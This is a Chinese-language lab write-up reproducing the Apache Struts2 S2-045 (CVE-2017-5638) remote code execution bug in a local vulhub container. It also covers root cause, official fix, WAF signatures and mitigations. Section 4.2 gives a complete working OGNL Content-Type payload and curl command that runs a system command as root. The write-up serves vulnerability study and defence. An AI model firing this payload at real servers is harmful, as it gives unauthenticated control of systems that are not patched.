

# CVE-2017-5638｜Apache Struts2 S2-045 远程代码执行复现

> 本报告为本地靶场环境下的安全研究记录，环境由 vulhub 提供的 Docker 镜像搭建，仅在本机回环地址访问，不涉及任何线上系统。

---

## 一、漏洞概述

| 项目 | 内容 |
| --- | --- |
| 漏洞编号 | CVE-2017-5638（Apache 官方编号 S2-045） |
| 影响组件 | Apache Struts2 |
| 影响版本 | 2.3.5 – 2.3.31、2.5 – 2.5.10 |
| 修复版本 | 2.3.32、2.5.10.1 |
| 漏洞类型 | 远程代码执行（RCE） |
| 触发入口 | HTTP 请求头 `Content-Type` |
| 认证要求 | 无（未授权即可利用） |
| 危害等级 | 高危 |

一句话描述：**Struts2 在处理 multipart 上传请求时，会把请求头 `Content-Type` 的内容交给 OGNL 表达式引擎求值。攻击者把 OGNL 表达式写进 `Content-Type`，即可让服务器执行任意系统命令。**

---

## 二、影响面

- 该漏洞于 2017 年 3 月公开，当时大量政府、金融、运营商系统使用 Struts2；
- 利用不需要账号、不需要交互，**一个 HTTP 请求即可拿到服务器权限**；
- 2017 年 Equifax 数据泄露事件（约 1.47 亿用户信息）即由该漏洞导致；
- 由于 Struts2 在 Java Web 生态中部署广泛，该漏洞至今仍是渗透测试与红队评估中的经典案例。

---

## 三、环境搭建

使用 vulhub 提供的现成环境（Struts 2.3.31）：

```bash
cd vulhub/struts2/s2-045
sudo docker compose up -d
```

容器启动后，服务监听 `http://localhost:8080`，页面为 Struts2 的文件上传示例（Fileupload sample）。

**环境信息记录：**

| 项目 | 值 |
| --- | --- |
| 宿主机 | Windows 11 + WSL2 (Ubuntu 24.04) |
| 容器引擎 | Docker（Ubuntu 发行版仓库 docker.io） |
| 镜像 | `vulhub/struts2:2.3.31` |
| 服务地址 | `http://localhost:8080` |
| 复现日期 | 2026-11-03 |

---

## 四、漏洞复现

### 4.1 正常请求

浏览器访问 `http://localhost:8080` 可见上传表单，正常提交时请求头为：

```http
POST / HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary...
```

### 4.2 构造恶意请求

把 `Content-Type` 替换为一段 OGNL 表达式，表达式内部完成三件事：获取成员访问权限 → 启动进程执行 `id` → 把命令输出写回 HTTP 响应。

```bash
PAYLOAD="%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

curl -s -X POST http://localhost:8080/ -H "Content-Type: $PAYLOAD" --data "x=1" -w "\nHTTP=%{http_code}\n"
```

### 4.3 复现结果

响应中直接回显了命令执行结果：

```
uid=0(root) gid=0(root) groups=0(root)

HTTP=200
```



**结论**：容器内进程以 `root` 身份执行了攻击者指定的命令，远程代码执行成立。

> 说明：这里执行的是只读命令 `id`，仅用于证明"命令被执行"，未做任何写入或破坏性操作。

---

## 五、成因分析

### 5.1 触发链路

```
攻击者 POST 请求，Content-Type 里是一段 OGNL 表达式
        │
        ▼
Struts2 的 multipart 解析器读取该请求头
        │
        ▼
解析失败（因为 Content-Type 不是合法 MIME 类型）
        │
        ▼
异常处理路径构造错误信息，把 Content-Type 原值拼进消息文本
        │
        ▼
错误信息交给 LocalizedTextUtil 做占位符替换
        │
        ▼
该流程内部使用 OGNL 对文本求值  ← 漏洞点
        │
        ▼
攻击者的表达式被执行，ProcessBuilder 拉起系统命令
```

### 5.2 根本原因

**用户的输入从"数据"变成了"代码"。**

Struts2 为了支持国际化消息里的动态占位符，会用 OGNL 对消息文本求值。而错误信息中拼接了未经校验的 `Content-Type` 值——**只要该值里含 OGNL 语法，它就会被当作表达式执行**。

这与本项目在 DVWA 上研究的问题本质相同：

> 校验发生在 A 处，使用发生在 B 处，而 B 处没有复用 A 处的结论。

### 5.3 为什么影响范围大

- `Content-Type` 是每个上传请求都会带的头，**攻击面覆盖所有启用 multipart 解析的入口**；
- 不需要登录，不需要知道业务逻辑；
- 默认配置即受影响，无需特殊条件。

---

## 六、修复方案

### 6.1 官方修复（2.3.32 / 2.5.10.1）

- 在 multipart 解析入口新增 **Content-Type 合法性校验**，只接受符合 MIME 规范的字符；
- 非法值直接按错误处理，**不再进入消息构造与 OGNL 求值流程**；
- 从根本上切断"用户输入 → 表达式引擎"的路径。

### 6.2 临时缓解

| 措施 | 说明 |
| --- | --- |
| WAF 拦截 | 对 `Content-Type` 中出现 `%{(`、`ognl`、`ProcessBuilder` 等特征串的请求直接拒绝 |
| 网络层限制 | 关闭不必要的上传入口，限制访问来源 |
| 权限收敛 | 应用进程降权运行，避免 RCE 后直接拿到 root |

### 6.3 修复思路的普适价值

该漏洞的修复不是"过滤几个关键字"，而是**在数据进入解释器之前做白名单校验**。这条原则适用于所有注入类漏洞（SQL 注入、命令注入、模板注入、表达式注入）。

---

## 七、复现心得

1. **真实漏洞与教学靶场的差别在"环境"**：需要理解容器、端口、服务启动方式，而不是填一个表单；
2. **构造原始 HTTP 报文是核心技能**：漏洞点在请求头而不是参数，只会用浏览器表单是打不到的；
3. **"能打穿"不等于"懂原理"**：能说清"为什么 OGNL 会被执行、补丁改在了哪一层"才是复现的价值；
4. **证据要可复现**：保留完整的请求构造命令与回显截图，任何人照着做都能得到同样结果。

---

## 八、参考

- NVD：<https://nvd.nist.gov/vuln/detail/CVE-2017-5638>
- Apache Struts 安全公告 S2-045：<https://cwiki.apache.org/confluence/display/WW/S2-045>
- vulhub 环境：<https://github.com/vulhub/vulhub/tree/master/struts2/s2-045>

---

## 附录：环境清理

复现完成后关闭环境，避免长期占用资源：

```bash
cd vulhub/struts2/s2-045
sudo docker compose down
```
